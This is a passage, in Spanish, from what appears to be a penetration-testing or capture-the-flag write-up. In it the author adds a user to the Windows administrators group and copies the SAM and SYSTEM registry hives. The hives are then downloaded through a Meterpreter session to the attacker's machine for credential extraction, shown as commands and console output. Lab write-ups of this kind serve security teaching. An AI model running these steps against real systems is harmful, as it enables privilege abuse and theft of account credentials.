 Vemos que ha funcionado correctamente.
```console
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 8A9A-E124

 Directory of C:\

07/12/2019  10:14    <DIR>          PerfLogs
06/12/2021  12:06    <DIR>          Program Files
07/12/2021  13:43    <DIR>          Program Files (x86)
06/09/2024  21:17            57,344 sam
06/09/2024  21:17        12,140,544 system
21/12/2021  23:50    <DIR>          Users
06/09/2024  19:57    <DIR>          Utils
16/12/2021  02:23    <DIR>          Windows
               2 File(s)     12,197,888 bytes
               6 Dir(s)   8,004,026,368 bytes free
```


Para que no haya problemas de lectura podemos añadir a `edavies` como administrador en la máquina.
```console
C:\>net localgroup administrators edavies /add
net localgroup administrators edavies /add
The command completed successfully.
```

Nos vamos a copiar los archivos a la carpeta `Utils` que es donde tengo la raíz de mi sesión de `metasploit`
```console
C:\>copy system Utils
copy system Utils
        1 file(s) copied.

C:\>copy sam Utils
copy sam Utils
        1 file(s) copied.
```

Ahora nos descargamos los archivos.
```console
Meterpreter 1)(C:\uTILS) > download sam
[*] Downloading: sam -> /home/pointedsec/Desktop/sam
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): sam -> /home/pointedsec/Desktop/sam
[*] Completed  : sam -> /home/pointedsec/Desktop/sam
(Meterpreter 1)(C:\uTILS) > download system
[*] Downloading: system -> /home/pointedsec/Desktop/system

[*] Downloaded 1.00 MiB of 11.58 MiB (8.64%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 2.00 MiB of 11.58 MiB (17.27%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 3.00 MiB of 11.58 MiB (25.91%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 4.00 MiB of 11.58 MiB (34.55%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 5.00 MiB of 11.58 MiB (43.18%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 6.00 MiB of 11.58 MiB (51.82%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 7.00 MiB of 11.58 MiB (60.46%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 8.00 MiB of 11.58 MiB (69.1%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 9.00 MiB of 11.58 MiB (77.73%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 10.00 MiB of 11.58 MiB (86.37%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 11.00 MiB of 11.58 MiB (95.01%): system -> /home/pointedsec/Desktop/system
[*] Downloaded 11.58 MiB of 11.58 MiB (100.0%): system -> /home/pointedsec/Desktop/system
[*] Completed  : system -> /home/pointedsec/Desktop/system
```

